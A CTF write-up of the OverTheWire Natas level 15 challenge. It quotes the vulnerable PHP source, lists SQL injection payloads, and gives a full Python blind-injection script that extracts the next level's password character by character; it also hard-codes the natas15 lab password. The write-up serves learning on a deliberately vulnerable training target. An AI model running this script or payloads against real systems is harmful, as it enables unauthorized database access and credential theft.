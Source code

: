 ```yaml
---
layout: post
title: Natas15 Writeup
categories:
- CTF writeups
- natas
tags:
- beginner
- sqli
- script
description: First writeup! On OverTheWire Natas Wargame 15
date: 2024-10-25 22:49 -0400
---
```

### First Glance

Looking at the source code:

```php
if(array_key_exists("username", $_REQUEST)) {
    ...

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    ...
```

### Attack Vector

In line 3, there would be our SQL injection point as `username` field
is the only way to manipulate the query.

Also by looking at line 11, if the query returns at least 1 row, we
would have an indicator that our query is true (`The user exists`).

So for the first try, I made this query:

> `" OR 1=1 #`

(Using `#` for comment as only that worked in natas14), which worked pretty nicely.

### Where I got stuck

Then I tried a few things, knowing the username is natas16 and the password length
is 32 by comparing the previous passwords. We got another query:

> `natas16" AND SUBSTRING(password, 1, 1) = "a" #`

This query worked for the most part, I placed it in the script to get all
the characters, even verified it with the SQLi by placing the whole password in there.
But here comes the problem, why can't I get authorized to the next stage?

### Solution

Then I did some more research, found out that there's a SQL Keyword called `LIKE`,
where you can combine with `%` to check if the word start with that. Also when combined
with `BINARY` it can check case sensitive. Hence we have the final script:

```python
import requests
from requests.auth import HTTPBasicAuth
from halo import Halo


url = "http://natas15.natas.labs.overthewire.org/index.php"
username = "natas15"
password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"
auth = HTTPBasicAuth(username, password)
charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
pw_len = 32

passwd = ""


with Halo(text="Enumerating", spinner="dots") as loading:
    loading.start()
    print("\n")
    for i in range(1, pw_len + 1):
        for char in charset:
            # Move cursor up two lines and clear them before printing the new update
            print("\033[F\033[K\033[F\033[K", end="")

            data = {
                "username": f'natas16" AND SUBSTRING(password, {i}, 1) LIKE BINARY "{char}%" #'
            }

            print(f"Password: {passwd}\nQuery: {data}")

            r = requests.post(url, auth=auth, data=data)
            if "exists" in r.text:
                passwd += char
                break

print(f"Final password: {passwd}")

```
